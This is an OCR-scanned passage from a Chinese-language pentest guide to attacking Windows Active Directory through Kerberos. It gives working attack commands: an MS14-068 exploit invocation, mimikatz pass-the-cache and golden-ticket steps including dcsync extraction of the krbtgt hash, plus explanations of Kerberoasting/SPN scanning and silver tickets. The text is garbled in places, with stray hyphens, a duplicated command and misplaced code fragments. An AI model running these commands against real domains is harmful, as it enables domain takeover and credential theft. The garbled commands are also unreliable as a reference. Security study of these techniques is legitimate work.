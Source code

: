 python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机-

利用mimikatz将工具得到的[TGT\_domainuser@SERVER.COM.ccache](mailto:TGT_domainuser@SERVER.COM.ccache)写入内存，创建缓存证书：

1-
2-

mimikatz.exe "kerberos::ptc c:TGT\_darthsidious@pentest.com.ccache" exit-
net use k: \\pentest.comc$-

相关阅读 :

*   [Kerberos的工具包PyKEK](http://adsecurity.org/?p=676)
*   [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
*   [Kerberos的安全漏洞](https://adsecurity.org/?p=541)

##### SPN扫描

Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包。 SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内部帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户的手动注册SPN。 SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。 相关阅读 :

*   [非扫描式的SQL Server发现](https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning/)
*   [SPN扫描](https://adsecurity.org/?p=1508)
*   [扫描SQLServer的脚本](https://github.com/PyroTek3/PowerShell-AD-Recon)

##### Kerberos的黄金门票

在域上抓取的哈希


lsadump::dcsync /domain:pentest.com /user:krbtgt-
-
kerberos::purge-
-
kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 -
/ticket:adinistrator.kiribi-
-
kerberos::ptt administrator.kiribi-
-
kerberos::tgt-
-
net use k: \\pnet use k: \\pentest.comc$-

相关阅读 :

*   [https://adsecurity.org/?p=1640](https://adsecurity.org/?p=1640)
*   [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html)
*   [Kerberos的认证原理](https://blog.csdn.net/wulantian/article/details/42418231)
*   [深刻理解windows安全认证机制ntlm＆Kerberos](https://klionsec.github.io/2016/08/10/ntlm-kerberos/)

##### Kerberos的银票务

黄金票据和白银票据的一些区别： Golden Ticket：伪造，可以获取服务权限 银票：伪造TGS， 加密方式不同： Golden Ticket由的hash加密 Silver Ticket由（通常为计算机账户）Hash加密 认证流程不同： 金票在使用的过程需要同域控通信 银票在使用的过程不需要同域控通信 相关阅读 :`TGT``任何Kerberos``只能访问指定的服务``krbtgt``服务账号`
